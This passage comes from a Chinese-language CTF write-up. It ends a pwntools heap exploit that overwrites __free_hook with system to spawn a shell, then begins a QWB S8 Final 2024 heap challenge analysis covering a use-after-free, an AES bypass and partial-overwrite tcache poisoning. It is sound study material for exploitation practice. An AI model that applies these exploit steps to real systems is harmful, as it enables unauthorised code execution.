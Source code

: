 ```py
decode("YWFh"*18) # 0
encode("b"*0x8) # 2
encode("c"*0x8) # 3
encode("d"*0x8) # 4
encode("e"*0x8) # 5
remove_encode(4)
remove_encode(3)
remove_decode(0)
# 弃疗了不如直接用那个 0x41 算了
decode("YWFh"*18+"8Q=") # 0
remove_encode(2)
# edit fd
free_hook = libc_base + libc.sym["__free_hook"]
system = libc_base + libc.sym["system"]
print(hex(free_hook))
payload = p64(0)*3+p64(0x21)+p64(free_hook)+p64(0)
base64_payload = base64.b64encode(payload)
decode(base64_payload) # 1
encode("f"*0x8)
decode(base64.b64encode(p64(system))) # 2
decode(base64.b64encode(b"/bin/sh\x00")) # 3
remove_decode(3)
gdb.attach(p)
pause()
p.interactive()

```
嗯，这道题做的挺顺，基本没有卡（当然也是因为简单吧）    

## heap - QWB S8 Final 2024
好久没打 unlink 了... 上次打 unlink 可能也许还是一年半以前...      
### 漏洞
一个非常显然的 UAF，但是我们输入的内容在堆上会被进行 AES 加密，加密的 key 是随机数      
此外，我们只能 malloc 0x30 大小的堆块，而这道题有一个特殊之处：    
它会检查我们申请出来的堆块地址，将其往下 0x1000 对齐后需要等于堆积地址，从而阻止了常用的思路：tcache poisoning allocate 任意地址     

### aes bypass
加密函数如下    
```c
unsigned __int64 __fastcall encrypt(__int64 src, int len, __int64 dst)
{
  int i; // [rsp+28h] [rbp-108h]
  char v6[248]; // [rsp+30h] [rbp-100h] BYREF
  unsigned __int64 v7; // [rsp+128h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  AES_set_encrypt_key(Key, 128LL, v6);
  for ( i = 0; i < len / 16; ++i )
    AES_ecb_encrypt(16 * i + src, 16 * i + dst, v6, 1LL);
  return __readfsqword(0x28u) ^ v7;
}
```
**可以看到如果 len 小于16则不会被加密**     
无论是 read key 还是 overwrite key，我们都需要把一个堆块扔到和 key 堆块重叠的位置，而此时我们并没有堆地址     
所以就想到了我们的老朋友： **partial overwrite**，那我们这次就用 partial overwrite fd （最低一位）来达到 tcache poisoning 效果      
而如果我们 read key, 则输出的 key 是我们 key 原值用它自身解密后的结果，所以不如 overwrite key     
这里我们 overwrite key 为 `b"\x00"*0x10` 从而可以 bypass aes   
